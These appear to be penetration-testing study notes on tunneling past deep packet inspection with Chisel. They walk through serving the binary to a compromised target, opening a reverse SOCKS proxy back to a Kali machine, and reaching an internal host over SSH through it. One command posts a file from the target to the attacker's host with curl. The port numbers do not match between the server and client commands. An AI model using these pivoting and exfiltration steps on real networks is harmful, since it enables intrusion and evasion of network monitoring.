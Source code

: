 
### Tunneling with Chisel

Chisel is a client/serve tool that we can use to send data using ssh encryption through HTTP. 

We use this when deep packet inspection is in place preventing general reverse shells and ssh connections, but for one reason or another http data is allowed outbound.

We can run a chisel server on our kali machine and transfer a chisel binary to the target machine that we were able to find a vulnerability on through http.

Chisel will bind a SOCKS proxy on the kali machine, and chisel will encapsulate whatever we send through the socks port, ssh encrypted.

Chisel client will then decapsulate the data and send it where ever it needs to go.

`all data trasnferred between chisel server and client is all http formatted allowing us to potentially traverse a deep packet inspection`

`if the target host is running a different operating system or architecture, we have to download and use the compiled binary for that specific operating system and architecture from the Chisel Github releases page`

after starting apache:
```
sudo cp $(which chisel) /var/www/html/
```

wget the chisel binary from the apache server (the correct chisel will need to be used from the releases for the correct system)

read successful attempts at retrieving the chisel binary from the target
```
tail -f /var/log/apache2/access.log
```

monitor our connection with:
```
sudo tcpdump -nvvvXi tun0 tcp port 8080
```

start a chisel server on kali:
```
chisel server --port 8008 --reverse
```

we can then run the chisel command on the remote target (may be saved to a path):
we might not be able to append to /dev/null
```
chisel client kali_ip:8080 R:socks > /dev/null 2>&1 &
```

if we get no output from chisel on attempted exploitation we will need to direct the standard error back to use:
```
/remote/path/to/chisel client kali_ip:8080 R:socks &> /tmp/output; curl --data @/tmp/output http://kali_ip:8080/
```

when all is correct the chisel server on out kali will signify a connection and so will our tcpdump

we can also check out connection with:
```
ss -ntplu
```
there should be a socks connection on port `1080`.

we can now attempt to ssh through our socks proxy:
```
ssh -o ProxyCommand='ncat --proxy-type socks5 --proxy 127.0.0.1:1080 %h %p' database_admin@10.4.50.215
```

`ncat is used here because nc that ships with kali does not support proxying`

running any other binaries or tools need to go through proxchains:
```
socks5 127.0.0.1 1080
```

and must be configure as shown above.